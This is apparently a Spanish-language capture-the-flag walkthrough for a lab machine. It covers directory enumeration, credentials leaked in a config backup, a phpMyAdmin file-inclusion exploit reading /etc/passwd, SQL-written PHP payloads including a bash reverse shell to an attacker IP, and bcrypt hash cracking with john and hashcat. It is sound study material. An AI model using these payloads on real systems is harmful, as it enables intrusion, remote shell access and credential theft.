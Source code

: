 ----

```bash
gobuster dir -u http://192.168.1.139/ -w /home/kuser/cosas/repositorios/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash | grep -v "400"
/cgi-bin/             (Status: 403) [Size: 210]
/assets/              (Status: 200) [Size: 1505]
/icons/               (Status: 200) [Size: 74409]

gobuster dir -u http://votenow.local/ -w /home/kuser/cosas/repositorios/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php.bak,php,tar,html,htm,txt,pdf -t 20| grep -v "400"
```


- encontramos credens en **/config.bak**
- Me logeo en **phpmyadmin**
- Busco version y exploit de phpmyadmin

```bash
 searchsploit -x php/webapps/50457.py
```
- El script te dice que hagas lo siguiente, es donde puedes ver los comandos que se ejecutan
```URL
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_uqs28p0ggnvf8hu8s160bu0egns0a6g8
```


- Apartado de SQL, haciendo consultas nos encontramos **admin:$2y\$12\$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i**
```
select '<?php system("whoami") ?>';
select '<?php system("bash -i >& /dev/tcp/192.168.1.135/443 0>&1"); ?>';
```
- Recargamos la página donde tenemos la ruta de atrás con el 'session'
- En la máquina

```bash
nc -nvlp 443
script /dev/null -c bash
Ctrol + Z
stty raw -echo ; fg # llevr netcat a 2 plano
reset xterm # o el visor que utilices
stty size # ver size de nuestra terminal
export TERM=xterm
export SHELL=bash
stty rows loquemedigamiterminal columns loquemedigamiterminal # en la revshell
```


- Cuando petas una **passwd** se guarda en el archivo **.jhon/jhon.pot** que son los potfiles
1. Miramos qué formatos serían con **hashcat** y **john**
```bash
hashid  -m -j '$2y$12$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i'
```

- Con el número de hash que nos dieron lo pasamos por **hashcat**
```bash
sudo john --wordlist=rockyoureducido.txt --format=bcrypt hash.txt
sudo hashcat -a 0 -m 3200 -o crack.txt hash.txt rockyoureducido.txt
cat crack.txt
```
